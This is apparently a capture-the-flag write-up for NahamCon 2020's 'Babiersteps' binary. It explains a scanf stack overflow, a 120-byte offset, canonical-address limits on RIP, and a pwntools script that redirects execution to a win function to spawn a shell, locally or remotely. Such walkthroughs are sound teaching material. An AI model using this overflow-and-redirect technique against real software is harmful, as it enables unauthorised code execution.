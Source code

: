 This is my writeup for the "Babiersteps" challange from NahamCon 2020.

After downloading the babier file we run the ```file ./babiersteps``` command wich gives the folowing output:

![alt text](images/file.png?raw=true "File")

We can see that the barbier file is a 64 bit elf file.

When we run a obj dump (```objdump ./babiersteps -d```). we can see that the program contains a win function at address ```0x4011c9.```

![alt text](images/segfault.png?raw=true "win")


After making the file executable and running we are shown the text "Everyone has heard of gets, but have you heard of scanf?".
If we input some random characters the program wil seemingly do nothing and shut down. If we give the program an input thats over 120 bytes the progrem wil return a segment fault.

![alt text](images/segfault.png?raw=true "seg")

If we open the program in gdb can get a better look at what is going on. ```gdb ./babiersteps``` (Note: I am using geff extention for gdb).
When we imput a lot of A's (300) we can see that we clotter most of the stack but not the RIP (instruction pointer) wich we want to control and point to our win function.

![alt text](images/clotter.png?raw=true "clotter")

Because the file is a 64 bit elf the RIP address has to be a 48 bit canonical address wich means the address has to be in the range ```0x0000000000000000``` to ```0x00007FFFFFFFFFFF``` and ```0xFFFF800000000000``` to ```0xFFFFFFFFFFFFFFFF```. otherwise the address wont be able to clutter the RIP. If we input a bunch of A's we are overwriting the rip with a non-canonical address. If we however run the program with 120 A's up to the point of getting the segfault(offset) and add a 6 bytes canonial address of 6 B's ```0x0000424242424242``` to the end we can see we can control the RIP.

![alt text](images/control.png?raw=true "control")

Now all we have to do is point the address to our win function and hope we get the flag. Our win function was located at ```0x4011c9.```.
We can use pyton to give us the addres in little endian ```python3 -c 'import struct;print(struct.pack("<I",0x4011c9))'```. We then need to add \x00\ 5 times to make the address canonical. If we input this address after our offset we can point to the win function.

I made a little python script using pwn tools to handle the program localy or remotly.

```
import argparse
from pwn import *
import struct;

offset = b"A"*120
rip = b"\xc9\x11@\x00\x00\x00\x00\x00\x00"

payload = b"".join([offset,rip]) 

parser = argparse.ArgumentParser()
parser.add_argument(
        '--host',
        type=str,
        help='The host name or IP address to connect to'
        )
parser.add_argument(
        '--port',
        type=int,
        help='The port for the service to connect to'
        )
parser.add_argument(
        '--file',
        type=str,
        help='Elf file to exploit'
        )

args = parser.parse_args()

if args.host and args.port:
        p = remote(args.host, args.port)

elif args.file and not(args.host) and not(args.port):
        elf = ELF(args.file)
        libc = elf.libc
        p=process(elf.path)

else:
        print("No arguments supplied")
        exit()


p.recvuntil('?')
p.sendline(payload)
p.interactive()
```

If we run this program localy (```python3 payload.py --file ./babiersteps```) we can see that the win function spawned a shell for us and we can cat out the flag.

![alt text](images/flag.png?raw=true "flag")

Thanks for reading, Suggestions & Feedback are appreciated !